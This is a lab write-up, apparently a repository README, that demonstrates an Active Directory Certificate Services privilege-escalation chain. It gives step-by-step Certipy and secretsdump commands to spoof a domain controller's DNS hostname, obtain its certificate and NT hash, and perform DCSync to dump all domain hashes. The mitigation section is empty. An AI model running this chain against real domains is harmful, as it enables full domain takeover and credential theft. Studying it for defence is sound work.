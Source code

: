 # Outline
- The Attack In Brief
- Tools Needed
- Lab Setup And Conditions
- Attack Demonstration
- Technical Breakdown
- Mitigation
- References and Credits

---

# The Attack In Brief
1. By default, A regular AD user can add up to 10 computers to the domain.
2. After a user adds a computer to the domain, he gains the right to change its `DNSHostname` property.
3. By changing this property to be a domain controller's `DNSHostname`, he can request a certificate for it from ADCS.
4. Using the domain controller's certificate, we can obtain its NTLM hash.
5. And with that, we can request a complete copy of the domain hashes a.k.a perform a **DCSync** attack.

---

# Tools Needed
1. Certipy (https://github.com/ly4k/Certipy)
2. Impacket (https://github.com/SecureAuthCorp/impacket)

---

# Lab Setup And Conditions
## 1. Domain Controller with ADCS Role installed [DC.LAB.Local: 192.168.126.129]
![dc-with-adcs-installed](dc-with-adcs-installed.jpg)

## 2. Kali [192.168.145.128]
![kali-machine](kali-machine.jpg)

## 3. Normal User Account (No Special Privileges)
![normal-ad-user](normal-ad-user.jpg)

---

# Attack Demonstration
## 1. Joining A Machine Account to The Domain with A Spoofed `DNSHostname`
Command: `certipy account create <DOMAIN_FQDN>/<AD_USER>@<DC_IP> -user '<NEW_COMPUTER_NAME>' -dns <DC_FQDN>`

![creating-computer-with-spoofed-dns-hostname](creating-computer-with-spoofed-dns-hostname.jpg)

![proof-of-dns-hostname-spoofing](proof-of-dns-hostname-spoofing.jpg)

## 2. Requesting A Domain Controller's Certificate
we must first know the certificate authority's name.

This can be done by visiting the `/certsrv` web directory on the server with ADCS installed and authenticating:

![finding-out-the-ca-name](finding-out-the-ca-name.jpg)

Command: `certipy req -dc-ip <DC_IP> <DOMAIN_FQDN>/'<ADDED_COMPUTER_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -ca <CA_NAME> -template Machine`
Password = same password generated from the computer creation in the previous step

![requesting-dc-cert](requesting-dc-cert.jpg)

## 3. Using the Domain Controller's Certificate To Get its NTLM Hash
Command: `certipy auth -pfx <GENERATED_PFX_CERTIFICATE>`

![got-nt-hash-for-dc](got-nt-hash-for-dc.jpg)

## 4. Performing `DCsync` As The Impersonated Domain Controller
Command: `secretsdump.py -just-dc <DOMAIN_FQDN>/'<DC_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -hashes :<RETRIEVED_HASH>`

![dc-sync-with-dc-ntlm-hash](dc-sync-with-dc-ntlm-hash.jpg)

---

# Technical Breakdown: The conversation
\+ **User:** Mr. AD! I heard that I could join 10 computers to the domain. Is this for real?

\- **AD:** Thats right! knock yourself out!

\+ **User:** Yo ADCS! can I request a certificate from you?

\~ **ADCS:** Sure is! what do you need this certificate for, user or computer?

\+ **User:** I have my own certificate. Thanks. Can I get that for the computer I just joined to the domain?

\~ **ADCS:** You bet! all domain computers can get their certificate!

\+ **User:** Oh that's great! Alright, i'll need one for my computer here. But can I make his `DNShostname` like this? \*puts domain controller fully-qualified domain name\*

\~ **ADCS:** \*inspects the certificate request closely and looks confused\* Well um... this is weird. But you totally have the permission to do that. \*Hands him a certificate with the domain controllers `DNSHostname` one it\*

\+ **User:** Thank you ADCS! This certificate is good for authentication too, Right?

\~ **ADCS:** That's correct.

\+ **User:** Perfect!

\+ **User:** AD! \*Points to the newly joined computer\*. There's another domain controller here that wants to get a copy of all the passwords. Would that be OK?

\- **AD:** Of course! There you are! \*Sends him a copy of all the domain hashes\*

\+ **User:** Oh you're so generous AD <3

## About Certificate Templates: Who's allowed to enroll? what can they do with a certificate?
Here's the process:
1. First, a client (can be a User or Computer) generates a public/private key pair.
2. Client sends a Certificate Signing Request (CSR) to an Enteprise CA Server.
3. A user client will need to access the User Certificate Template. Same goes for a computer client. So both templates must exist.
4. By default, both the user and computer certificate templates allow client authentication.
4. Templates have permissions too. If the template allows the client to request a certificate, he should be good to go and the CA will sign his certificate with its own private key.
5. The client would then store this certificate in its Certificate Store and use it to perform actions allowed by the certificate (including authentication).
6. Because of the PKINIT kerberos extension, the issues certificates can be used for authentication.

## Puzzle Piece #1: The Default Privileges Of A Normal AD User
In Active Directory, any member of the `Authenticated Users` group is allowed to add up to 10 computers to the domain.

We can verify that by going to `MMC -> ADSI EDIT > DEFAULT NAMING CONTEXT > DOMAIN PROPERTIES`

![machine-account-quota](machine-account-quota.jpg)

## Puzzle Piece #2: The Permissions an AD User Has on The Computer He Joins to the domain
When a user adds a computer to the domain, he gains a few permissions on it:

![permissions-of-computer-owner](permissions-of-computer-owner.jpg)

## Puzzle Piece #3: the permissions for the computer certificate template
The computer certificate is accessible to any computer in the Domain Computers Group:

![computer-certificate-template-permissions](computer-certificate-template-permissions.jpg)

4. requesting certs
5. grabbing the NTLM hash

# mitigation

# references and credits